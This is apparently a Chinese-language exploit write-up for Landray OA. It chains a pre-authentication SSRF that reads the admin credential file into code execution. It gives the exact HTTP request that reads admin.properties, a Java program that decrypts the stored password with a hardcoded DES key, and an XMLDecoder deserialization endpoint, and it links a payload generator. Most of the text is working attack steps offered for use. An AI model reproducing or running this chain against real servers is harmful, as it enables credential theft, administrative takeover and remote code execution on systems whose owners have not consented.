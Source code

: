 # 蓝凌OA 前台 SSRF 到 RCE

详情分析可以见：https://mp.weixin.qq.com/s/fNovp4mbKIMkVdF2ywcQcQ

SSRF 漏洞位置： /sys/ui/extend/varkind/custom.jsp

读password:


```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
...

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

解密：


```
import com.landray.kmss.util.DESEncrypt;

public class main {
    public static void main(String[] args) {
        String password = "mqwEyqHLj9PQXpy+yhf4z92SejWx+VeS";
        String resul=doPasswordDecrypt(password);
        System.out.println(resul);

    }
    public static String doPasswordDecrypt(String password) {
        try {
            DESEncrypt des = new DESEncrypt("kmssAdminKey");
            return des.decryptString(password);
        } catch (Exception ex) {
            try {
                DESEncrypt des0 = new DESEncrypt("kmssAdminKey", true);
                return des0.decryptString(password);
            } catch (Exception e) {
                return "ヾﾉ≧∀≦)o";
            }
        }
    }
}

```

解密后得到明文密码登录后使用xmldecoder反序列化.


```
/sys/search/sys_search_main/sysSearchMain.do?method=editParam&fdParemNames=11&fdParameters=<payload>
```

XMLDecoder-payload-generator生成payload: https://github.com/mhaskar/XMLDecoder-payload-generator

from：https://mp.weixin.qq.com/s/fNovp4mbKIMkVdF2ywcQcQ